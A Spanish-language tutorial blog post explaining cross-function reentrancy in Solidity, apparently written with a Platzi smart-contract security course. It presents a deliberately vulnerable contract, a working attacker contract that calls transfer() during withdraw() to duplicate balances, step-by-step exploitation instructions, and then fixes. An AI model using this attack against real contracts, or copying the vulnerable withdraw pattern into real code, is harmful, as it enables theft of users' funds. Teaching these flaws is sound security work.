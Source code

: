 ```yaml
---
title: 'Solidity: Ataque Reentrancy Cruzado'
description: 'La vulnerabilidad conocida como Reetrancy permite llamar a una misma función una y otra vez. Existe una variante que provoca el llamado a una segunda función. Se lo conoce con el nombre de Reetrancy Cruzado.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Cross Reentrancy Attack',
  description: 'The vulnerability known as Reetrancy allows the same function to be called over and over again. There is a variant that causes a second function to be called. It is known by the name of Reetraccy Cruzado.'
}
prev: 'reentrancy-attack'
next: 'self-destruct-attack'
---
```


# Solidity: Ataque Reentrancy Cruzado

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones

Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
  mapping (address => uint) private balances;

  // Función para depositar ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Función para retirar todo el ETH de una cuenta
  function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}("");
    require(result);
    balances[msg.sender] = 0;
  }

  // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
  function transfer(address to, uint amount) public {
    if (balances[msg.sender] >= amount) {
      balances[to] += amount;
      balances[msg.sender] -= amount;
    }
  }

  // Función para ver el balance de una cuenta
  function getBalance(address addr) public view returns (uint) {
    return balances[addr];
  }

  // Función para ver el balance total del contrato
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por su parte, el contrato atacante:

```js
contract Ataque {
  // Dirección del owner de contrato donde se duplicará el balance
  address payable ownerAddr;

  ReentrancyCross public reentrancyCross;

  constructor(address _reentrancyCrossAddress) {
    // Instanciamos el contrato ReentrancyCross
    reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
    ownerAddr = payable(msg.sender);
  }

  // Función que recibe los ETH luego de un retiro
  receive() external payable {
    // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
    reentrancyCross.transfer(ownerAddr, msg.value);
  }

  // Función que ocasiona el llamado a una segunda función luego del retiro
  function attack() external payable {
    require(msg.value >= 1 ether);
    reentrancyCross.deposit{value: 1 ether}();
    reentrancyCross.withdraw();
  }

  // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `ReentrancyCross`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

### ¿Qué sucedió aquí?

`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?

Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
  uint amount = balances[msg.sender];
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
  balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?

Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
  uint amount = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones

Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://external.ink?to=https://platzi.com/cursos/seguridad-smart-contracts/) de **Platzi**.

